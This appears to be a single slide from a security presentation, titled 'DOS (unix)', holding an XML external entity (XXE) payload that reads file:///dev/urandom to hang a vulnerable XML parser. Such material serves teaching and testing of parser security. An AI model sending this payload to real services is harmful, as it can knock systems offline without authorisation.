

# DOS (unix)
<?xml version="1.0"?>
<!DOCTYPE greeting [
<!ENTITY xxe SYSTEM "file:///dev/urandom" >
]>
<greeting>&xxe;</greeting>